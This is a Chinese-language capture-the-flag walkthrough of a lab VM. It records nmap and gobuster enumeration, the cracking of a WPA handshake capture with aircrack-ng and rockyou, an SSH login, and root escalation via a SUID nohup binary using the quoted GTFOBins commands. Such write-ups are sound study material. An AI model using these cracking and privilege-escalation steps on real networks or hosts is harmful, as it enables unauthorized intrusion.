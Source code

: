 
## 主机发现
```
# 确定主机
sudo nmap -sn 192.168.207.0/24 
sudo arp-scan -l

# 端口扫描tcp
sudo nmap -p- -T5 192.168.207.154 -o nyx_tcp

# 端口扫描udp
sudo nmap --top-ports 20  192.168.207.154 -o nyx_udp

# tcp端口详细信息扫描
sudo nmap -sC -A -p22,80 -T5 192.168.207.154 -o nyx_detail

# 漏洞脚本扫描 
sudo nmap --script=vuln -p22,80 192.168.207.154 -o nyx_scirpt


攻击面较多80，8080，8999，9000
```

## web渗透
```
> sudo gobuster dir -u "http://192.168.207.154:8080/" -x txt,rar,sql,php,zip -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 400-500

	
	/file.php             (Status: 200) [Size: 63]
	/passwords.txt        (Status: 200) [Size: 23]
	Progress: 1323360 / 1323366 (100.00%)

> sudo gobuster dir -u "http://192.168.207.152/" -x txt,rar,sql,php,zip -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 400-500

	/images               (Status: 301) [Size: 319] [--> http://192.168.207.152/images/]
	/index.php            (Status: 200) [Size: 74]
	/media                (Status: 301) [Size: 318] [--> http://192.168.207.152/media/]
	/templates            (Status: 301) [Size: 322] [--> http://192.168.207.152/templates/]
	/modules              (Status: 301) [Size: 320] [--> http://192.168.207.152/modules/]
	/bin                  (Status: 301) [Size: 316] [--> http://192.168.207.152/bin/]
	/plugins              (Status: 301) [Size: 320] [--> http://192.168.207.152/plugins/]
	/includes             (Status: 301) [Size: 321] [--> http://192.168.207.152/includes/]
	/file.php             (Status: 200) [Size: 0]
	/language             (Status: 301) [Size: 321] [--> http://192.168.207.152/language/]
	/README.txt           (Status: 200) [Size: 4793]
	/components           (Status: 301) [Size: 323] [--> http://192.168.207.152/components/]
	/cache                (Status: 301) [Size: 318] [--> http://192.168.207.152/cache/]
	/libraries            (Status: 301) [Size: 322] [--> http://192.168.207.152/libraries/]
	/robots.txt           (Status: 200) [Size: 33]
	/tmp                  (Status: 301) [Size: 316] [--> http://192.168.207.152/tmp/]
	/LICENSE.txt          (Status: 200) [Size: 18092]
	/layouts              (Status: 301) [Size: 320] [--> http://192.168.207.152/layouts/]
	/administrator        (Status: 301) [Size: 326] [-->http://192.168.207.152/administrator/]
	/htaccess.txt         (Status: 200) [Size: 3159]
	/cli                  (Status: 301) [Size: 316] [--> http://192.168.207.152/cli/]

> sudo gobuster dir -u "http://192.168.207.152:8999/" -x txt,rar,sql,php,zip -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 400-500

	/index.php            (Status: 200) [Size: 405]
	/wp-content           (Status: 302) [Size: 12] [-->http://192.168.207.152:8999/wpcontent/]
	/wp-login.php         (Status: 200) [Size: 47874]
	/wordpress            (Status: 302) [Size: 11] [-->http://192.168.207.152:8999/wordpress/]
	/license.txt          (Status: 200) [Size: 19915]
	/wp-includes          (Status: 302) [Size: 13] [--> http://192.168.207.152:8999/wpincludes/]
	/wp-trackback.php     (Status: 200) [Size: 4755]
	/wp-admin             (Status: 302) [Size: 10] [--> http://192.168.207.152:8999/wp-admin/]
	/xmlrpc.php           (Status: 200) [Size: 3133]
	/wp-signup.php        (Status: 200) [Size: 31111]
	Progress: 1323360 / 1323366 (100.00%)

> sudo gobuster dir -u "http://192.168.207.152:9000/" -x txt,rar,sql,php,zip -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 400-500

	/index.php            (Status: 200) [Size: 0]
	/files                (Status: 200) [Size: 4]
	Progress: 1323360 / 1323366 (100.00%)

全部都查看下来并没有任何发现，攻击面也并没有。在查看8999端口时有一个.cap文件,下载下来发现可以用wireshark打开，查看是一个wifi的数据包？

aircreak-ng进行识别
> aircreak-ng WPA-01.cap

	Reading packets, please wait...
	Opening WPA-01.cap
	Resetting EAPOL Handshake decoder state.
	Read 1918 packets.
	
	   #  BSSID              ESSID                     Encryption
	
	   1  5C:D9:98:5A:B6:62  dlink                     WPA (1 handshake)
	
	Choosing first network as target.
	
	Reading packets, please wait...
	Opening WPA-01.cap
	Resetting EAPOL Handshake decoder state.
	Read 1918 packets.
	
	1 potential targets
	
	Please specify a dictionary (option -w).

> aircrack-ng -b '5C:D9:98:5A:B6:62' -w /usr/share/wordlists/rockyou.txt ./WPA-01.cap

		                   Aircrack-ng 1.7 

      [00:00:29] 68627/14344392 keys tested (2394.90 k/s) 

      Time left: 1 hour, 39 minutes, 20 seconds                  0.48%

                           KEY FOUND! [ p4ssword ]


      Master Key     : 8F C0 1B 1B 85 06 0B 85 23 7C 83 74 F8 4B 4A FD 
                       50 CE EC 72 6F 85 17 5F B1 14 5E D2 F2 47 5D 1A 

      Transient Key  : 13 41 36 81 4A 92 19 CF EC 14 B8 FD 20 2C D4 2E 
                       BA A1 95 79 CE 15 5F 1A 2C DE 03 A8 2B 52 68 64 
                       D3 77 A7 E4 FF CD 49 0C ED E9 5E 3B 68 E6 83 26 
                       06 0C 98 8D 43 B6 7C E4 FE ED 2E 45 90 0D 6D 15 

      EAPOL HMAC     : 33 A5 CE E2 46 DB 4B 96 86 A1 6E D9 D2 A2 A6 E9 

发现了密码为p4ssword！账号时dlink
> airdecap-ng WPA-01.cap  -e 'dlink' -p 'p4ssword'
查看解密后的文件，好像没有什么发现，那么试试用ssh登录dlink这个账号

> ssh dlink@192.168.207.152

成功登录
```

## 提权
```
枚举后发现，没有有sudo的权限，不过有一个文件可以以sudo的方式运行而不需要密码，但是实际并没有这个文件，因为sudo中写的是绝对路径，也没法用修改$PATH的方式绕过。


/etc/crontab 每分钟都执行一次* * * * * /tmp/script.sh，查看tmp目录发现做了限制，无法把文件写入。


>find / -perm -u=s -type f 2>/dev/null
发现了一个可以使用suid提权的二进制文件 /usr/bin/nohup，在https://gtfobins.github.io查找相关利用
```
Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

    nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"

Command

It can be used to break out from restricted environments by running non-interactive system commands.

    COMMAND='/usr/bin/id'
    nohup "$COMMAND"
    cat nohup.out

SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

    sudo install -m =xs $(which nohup) .

    ./nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"

Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged

``` 
执行利用：
usr/bin/nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)

执行成功！

> cat /root/flag.txt

Nice work!

                .:##:::.
              .:::::/;;\:.
        ()::::::@::/;;#;|:.
        ::::##::::|;;##;|::
         ':::::::::\;;;/::'
              ':::::::::::
               |O|O|O|O|O|O
               :#:::::::##::.
              .:###:::::#:::::.
              :::##:::::::::::#:.
               ::::;:::::::::###::.
               ':::;::###::;::#:::::
                ::::;::#::;::::::::::
                :##:;::::::;::::###:::     .
              .:::::; .:::##::::::::::::::::
              ::::::; :::::::::::::::::##::  #rootdance



```

